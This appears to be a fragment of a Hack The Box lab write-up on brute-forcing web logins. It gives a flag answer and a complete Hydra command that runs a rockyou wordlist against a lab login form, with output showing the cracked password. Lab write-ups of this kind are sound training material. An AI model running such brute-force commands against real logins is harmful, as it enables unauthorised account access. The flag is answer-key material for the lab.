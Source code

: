 ![](./attachments/Pasted%20image%2020220709130703.png)

**Answer:** `HTB{4lw4y5_ch4n63_d3f4ul7_p455w0rd5}`

### Question 2:
![](./attachments/Pasted%20image%2020220709102208.png)

*Hint: You may reuse the username you found earlier. Make sure you got the correct fail string and parameters.*

```
┌──(kali㉿kali)-[~/username-anarchy]
└─$ hydra -l user -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-75.txt -f 46.101.60.47 -s 31524 http-post-form "/admin_login.php:user=^USER^&pass=^PASS^:F=<form name='log-in'"             
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-07-09 07:27:14
[DATA] max 16 tasks per 1 server, overall 16 tasks, 59185 login tries (l:1/p:59185), ~3700 tries per task
[DATA] attacking http-post-form://46.101.60.47:31524/admin_login.php:user=^USER^&pass=^PASS^:F=<form name='log-in'
[31524][http-post-form] host: 46.101.60.47   login: user   password: harrypotter
[STATUS] attack finished for 46.101.60.47 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-07-09 07:27:23
```
